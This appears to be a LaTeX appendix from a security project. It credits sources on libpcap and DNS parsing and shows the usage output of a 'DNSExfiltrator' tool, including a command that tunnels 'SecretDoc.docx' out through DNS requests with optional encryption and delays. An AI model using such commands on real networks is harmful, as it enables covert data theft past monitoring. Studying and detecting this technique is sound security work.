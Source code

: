 \section{C Libraries \& Methods}
\subsection{Notable code credit}
\begin{enumerate}
    \item https://elf11.github.io/2017/01/22/libpcap-in-C.html
    \item http://www.ietf.org/rfc/rfc768.txt
    \item http://tools.ietf.org/html/rfc1035
    \item https://www.devdungeon.com/content/using-libpcap-c
    \item https://www.codeproject.com/Tips/465850/Scanning-a-PCAP-dump-to-find-DNS-and-NETBIOS-queri
\end{enumerate}



\section{Threat Tool Usage}

\begin{tcblisting}{listing only}
cd DNSExfiltrator
python3 main.py -h
usage: main.py [-h] [-d DOMAIN] [-f FILENAME] [-a AESENCRYPT] [-t SENDDELAY]

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain required to append malformed subdomain to
  -f FILENAME, --filename FILENAME
                        Optional - Instead of a static phrase, a file can be segmented and pushed
  -a AESENCRYPT, --aesencrypt AESENCRYPT
                        Apply AES encryption before base64, specifying a 16 bit key - e.g give1stclassPlss
  -t SENDDELAY, --senddelay SENDDELAY
                        Slow rate of fire of UDP messages (seconds)

                        
python3 main.py -f SecretDoc.docx

TRANSMISSION MAY HALT FOR A SECOND OR SO OCCASIONALLY, BE PATIENT!

FILE TUNNEL MODE ENABLED - THE FILE WILL BE TRANSMITTED VIA DNS REQUESTS

...

\end{tcblisting}

